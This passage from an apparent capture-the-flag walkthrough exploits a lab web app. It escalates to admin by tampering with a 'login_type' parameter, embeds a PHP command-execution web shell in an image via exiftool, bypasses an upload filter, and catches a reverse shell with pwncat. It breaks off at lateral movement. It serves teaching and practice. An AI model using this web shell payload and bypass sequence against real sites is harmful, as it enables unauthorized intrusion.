 ![image](https://user-images.githubusercontent.com/93153300/204039324-274408c0-d6a3-45ba-bc80-2588f7f35bb1.png)
 
The name we chose when creating an account is John, so the top right corner of the page shows ‘Hi, John!’.   Click on ‘Hi, John!’ and then click on ‘Manage Account’.  The page shows that we can update our account: 

![image](https://user-images.githubusercontent.com/93153300/204039336-e610c26b-bda4-4369-97ef-ae52a59ff4ef.png)

Capture the ‘Update’ request in burp suite:

![image](https://user-images.githubusercontent.com/93153300/204039348-66fa8142-fd91-4d4e-bb3e-e92079ec474b.png)
 
Burp suite at the bottom shows a body parameter of ‘login_type=2’.  Change that to ‘login_type=1’ and then forward the request. This attack is called an insecure direct object reference.  The number 1 is usually for an admin account to give admin permissions to the user.  Next, visit the ‘/admin’ directory once again.  It works, we are now able to access the ‘/admin’ directory.  The page shows:

![image](https://user-images.githubusercontent.com/93153300/204039357-ea80dae4-e849-47c5-85f8-e15db79bf74d.png)

Click on our username in the top right corner (our username is ‘John wick’) and then click on ‘My Account’.  The page shows:

![image](https://user-images.githubusercontent.com/93153300/204039371-95f756a1-393f-405d-a91e-9d5f61bfebaa.png)

On this page we can upload files for the user’s ‘Avatar’.  The site will only allow uploads of a file that actually contains an image.  Therefore, we will use exiftool to put the php command shell payload in the comment section of an image file: <br>
exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); ?>' gnome-dev-ipod.png

The site also blocks uploading any file containing a php file extension.  In order to bypass this filter we will upload a file with an extension of png, capture the request in burp suite, in burp suite change the extension of the file to php, and then forward the request:  

![image](https://user-images.githubusercontent.com/93153300/204039386-2f3d9b65-6bff-403b-8672-5fbaf2acfb50.png)
 
To use this uploaded file, we need to find where it’s stored.  Look at the source code (control U):

![image](https://user-images.githubusercontent.com/93153300/204039396-270341b9-c1a6-4d6c-953f-3942ff7fdf9f.png)

The source code shows the location of the uploaded file.  Visiting that location and trying a proof of concept with command ‘id’:

![image](https://user-images.githubusercontent.com/93153300/204039409-7d94d22a-cb7b-4495-8209-d5b054df45aa.png)

The page shows that command ‘id’ ran successfully.  Next, capture the request in burp suite, send the request to ‘Repeater’, replace the command ‘id’ with a reverse shell, and then url encode the key characters:

![image](https://user-images.githubusercontent.com/93153300/204039423-d0290c08-09a5-4da6-91eb-37c2548cb294.png)

Open a netcat listener to catch the reverse shell (we will use pwncat as it gives a better shell): pwncat-cs -lp 443 

Send the request.  We now have a shell as user www-data.  
________________________________________________________________________
<b>Lateral Movement:</b><br>
We find ourselves in a docker:
